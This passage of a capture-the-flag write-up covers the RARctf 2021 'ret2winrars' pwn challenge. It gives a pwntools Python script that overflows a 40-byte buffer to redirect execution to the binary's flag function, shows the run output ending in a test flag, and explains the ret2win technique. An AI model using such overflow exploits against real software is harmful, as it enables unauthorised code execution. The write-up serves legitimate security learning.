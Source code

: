 ```python

print( p.recvall().decode(encoding='ascii') )
```

Saves me some hassle, might do the same for you. And this is what my script looked like:

```python
#!/usr/bin/env python3

from pwn import *

local = True

elf = ELF('./ret2winrars')

if local:
	p = elf.process()
else:
	p = remote('193.57.159.27', 30527)

junk = b'A'*40

flag = elf.symbols['flag']

payload = [
	junk,
	p64(flag)
]

payload = b''.join(payload)

print( p.recvuntil(': ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)

print(len(p64(flag)))

print( p.recvall().decode(encoding='ascii') )

```

Great, using this script we can exploit the local binary. Accessing `symbols` of the `ELF` object we can find the address of the `flag` function, then using the `p64` function we convert to a valid 64 bit address. Combining that with our 40 `A's` we can overwrite the instruction pointer with the `flag` function address, thus altering code flow and gaining the flag!

```
./solve.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars': pid 18472
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (30B)
[*] Process '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars' stopped with exit code 0 (pid 18472)
rarctf{f4k3_fl4g_f0r_t35t1ng}
```

